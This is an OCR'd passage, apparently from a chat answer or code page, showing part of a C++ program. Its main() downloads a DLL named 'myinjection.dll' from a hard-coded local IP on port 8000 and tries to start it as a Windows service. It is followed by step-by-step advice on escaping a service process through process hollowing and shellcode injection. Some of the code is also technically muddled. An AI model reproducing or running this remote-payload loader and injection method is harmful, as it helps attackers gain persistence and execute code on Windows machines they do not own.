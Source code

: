 ```cpp

    memcpy(pBinaryPath, binaryBuffer, bufferSize);

    // Start the service
    if (!StartServiceA(schService, 0, NULL)) {
        VirtualFreeEx(GetCurrentProcess(), pBinaryPath, 0, MEM_RELEASE);
        CloseServiceHandle(schService);
        CloseServiceHandle(schSCManager);
        return false;
    }

    CloseServiceHandle(schService);
    CloseServiceHandle(schSCManager);
    return true;
}

int main(int argc, char* argv[]) {
    const char* serviceName = "MyService";
    unsigned char* binaryBuffer = nullptr;
    size_t bufferSize = 0;

    // Download binary from URL
    if (!DownloadBinaryFromURL("http://192.168.45.250:8000/myinjection.dll", &binaryBuffer, &bufferSize)) {
        std::cerr << "Failed to download binary." << std::endl;
        return 1;
    }

    // Create and start service from memory
    if (!CreateAndStartServiceFromMemory(serviceName, binaryBuffer, bufferSize)) {
        std::cerr << "Failed to create and start service." << std::endl;
        free(binaryBuffer);
        return 1;
    }

    std::cout << "Service created and started successfully." << std::endl;
    free(binaryBuffer);
    return 0;
}
```


To migrate from a Windows service process to another process or run as a stand-alone process, you can use techniques like process hollowing or creating a new process and injecting your code into it. Here's an approach using `lat.cpp` as the base:

### Steps to Migrate from a Service Process:

1. **Identify Target Process**: You can either inject into an existing process or create a new one.
2. **Create or Open a Target Process**: If you create a new process, you can do so in a suspended state.
3. **Inject the Code**: Write your code or shellcode into the memory of the target process.
4. **Resume Execution**: If you created a new process in a suspended state, resume it. If you're injecting into an existing process, adjust the entry point.
